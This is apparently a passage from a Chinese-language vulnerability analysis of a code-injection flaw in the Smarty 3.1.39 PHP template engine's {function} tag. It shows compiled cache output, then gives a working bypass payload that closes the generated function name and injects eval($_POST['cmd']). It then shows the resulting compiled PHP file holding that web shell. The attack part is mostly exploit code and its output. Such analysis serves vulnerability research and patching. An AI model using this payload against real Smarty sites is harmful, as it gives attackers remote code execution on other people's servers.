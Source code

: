 ```php
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

根据生成的内容格式, 不难构造恶意的绕过`Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. 可以看到生成的缓存模板函数中成功完美闭合了.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```
